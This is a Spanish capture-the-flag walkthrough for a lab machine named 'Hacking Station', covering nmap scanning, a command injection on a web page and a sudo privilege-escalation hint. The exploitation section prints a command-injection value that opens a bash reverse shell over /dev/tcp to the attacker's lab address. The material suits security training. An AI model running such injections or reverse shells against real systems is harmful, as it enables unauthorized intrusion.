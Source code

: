 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Hacking Station

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.56
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1095).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.56 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el **puerto 80** perteneciente al **servicio HTTP** está abierto, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 192.168.1.56
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

Revisamos puerto 80.

<figure><img src="../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Consiste en un Command Injection por lo que nos mandaremos una Reverse Shell.

```bash
hola;bash -c 'bash -i >& /dev/tcp/192.168.1.65/4444 0>&1'
```

Nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (1099).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (1100).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/nmap/#sudo" %}

<figure><img src="../../.gitbook/assets/image (1101).png" alt=""><figcaption></figcaption></figure>

